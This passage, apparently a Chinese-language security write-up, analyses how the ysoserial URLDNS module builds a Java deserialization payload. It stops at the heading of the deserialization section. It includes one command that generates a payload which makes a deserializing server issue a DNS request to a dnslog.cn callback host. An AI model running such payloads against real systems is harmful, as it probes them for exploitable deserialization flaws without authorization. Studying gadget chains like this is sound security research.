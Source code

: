 ## ysoserial URLDNS模块分析

### 0x01. 序列化过程

当执行以下命令, 会生成向指定域名发起DNS请求的Java反序列化payload，并将其重定向到指定文件中。
```
java -jar ysoserial.jar URLDNS "http://y8jhkk.dnslog.cn" > ~/tmp/ysoserial-urldns-serial.bin
```
用`010 Editor`打开 `~/tmp/ysoserial-urldns-serial.bin`文件，可以看到标识Java序列化数据的`Magic Number`, `AC ED 00 05`。

![](pic/ysoserial-urldns-1.png)

将`ysoserial`工程导入`IDEA`后，从`pom.xml`文件可以看到入口类是`ysoserial.GeneratePayload`

![](pic/ysoserial-urldns-2.png)

当执行上述命令时，进入`GeneratePayload`的`main()`方法，首先获取外界传入的参数，其中，`URLDNS`作为payload的类型，通过 `Utils.getPayloadClass(payloadType)方法`获取到对应的payload处理类`ysoserial.payloads.URLDNS`。

![](pic/ysoserial-urldns-3.png)

接着，通过传入的参数`command`，`URLDNS`调用`getObject(command)`方法获取到一个`Object`对象，该对象实际上是一个`HashMap`对象, 它的`key`是一个与传入的`http://y8jhkk.dnslog.cn`相关联的`URL`对象，它的值则是 `http://y8jhkk.dnslog.cn`

![](pic/ysoserial-urldns-4.png)

最后通过 `Serializer.serialize(object, out);` 将这个`HashMap`对象序列化。
其实`Serializer.serialize(object, out)`就是调用`Object`的`writeObject`方法。

![](pic/ysoserial-urldns-5.png)

### 0x02. 反序列化过程